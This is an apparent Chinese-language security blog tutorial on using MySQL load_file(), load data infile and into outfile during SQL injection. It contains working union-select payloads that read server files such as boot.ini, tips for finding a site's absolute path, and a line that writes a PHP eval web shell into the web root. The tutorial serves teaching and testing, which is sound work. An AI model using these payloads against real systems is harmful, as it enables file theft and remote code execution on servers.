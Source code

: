 ```yaml
---
layout: post
title:  "SQL注入的导入导出文件讲解"
date:   2018-11-25 20:15:33 +0700
categories: [Web安全, SQL注入]
---
```


## 0x00 相关函数

* load_file()
* load data infile
* into outfile 

## 0x01 load_file()导出文件

**作用：** 读取文件并返回该文件的内容

**使用的条件：**

1. 必须有权限读取并且文件必须完全可读
   1.  `and (select count(*) from mysql.user)>0 %23` 返回正常，说明有读写权限
2. 读取的文件必须在服务器上
3. 必须指定文件的绝对路径
4. 读取文件必须小于max_allowed_packet

文件不满足的情况下，会返回空。在windows 下，如果NTFS 设置得当，是不能读取相关的文件的，当遇到只有
administrators 才能访问的文件，users 就别想load_file 出来。

在测试的过程中一个难题需要解决：

* 网站的绝对路径

**查找物理路径的方法：**

* 报错显示，通过构造错误query语句，如果`display_error=on` ,那么就会爆出绝对路径
* Google hacking
  * site: url warning
* 读取配置文件
* 遗留的文件 phpinfo、info、test
* 漏洞爆路径

**注意：**

1. 路径符号`\` 要转义`\\`
2. 路径可以是十六进制，就不要`""`

```
select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,
114,101,112,97,105,114,92,115,97,109)))//利用hex()将文件内容导出来，尤其是smb 文件时可以使用。

-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))

-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)

-1 union select 1,1,1,load_file(c:\\boot.ini)
```

**常用路径：**
http://www.cnblogs.com/lcamry/p/5729087.html

## 0x02 load data infile 文件导入到数据库

**作用：** 句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。在注入过程中，我们往往需要一些特殊的文件，比如配置文件，密码文件等。当你具有数据库的权限时，可以将系统文件利用load data infile 导入到数据库中。

```
示例：load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t' lines terminated by '\n'
```

将/tmp/t0.txt 导入到t0 表中，character set gbk 是字符集设置为gbk，fields terminated by 是
每一项数据之间的分隔符，lines terminated by 是行的结尾符。

当错误代码是2 的时候的时候，文件不存在，错误代码为13 的时候是没有权限，可以考虑
/tmp 等文件夹。

## 0x03 into outfile 导入到文件

**作用：**可以将选择的行写入到一个文件中，该文件被创建在服务器的主机上，必须有file权限，而且filename不能是一个已经存在的文件。

一般有两种形式：

```
第一种： 直接将select内容写入到文件中
Select <?php @eval($_post[“mima”])?> into outfile “c:\\phpnow\\htdocs\\test.php”

第二种： 修改文件结尾
Select version() Into outfile “c:\\phpnow\\htdocs\\test.php” line terminated by 0x16进制文件
```

在sqlmap 中os-shell 采取第二种方式，具体可参考os-shell 分析文章：http://www.cnblogs.com/lcamry/p/5505110.html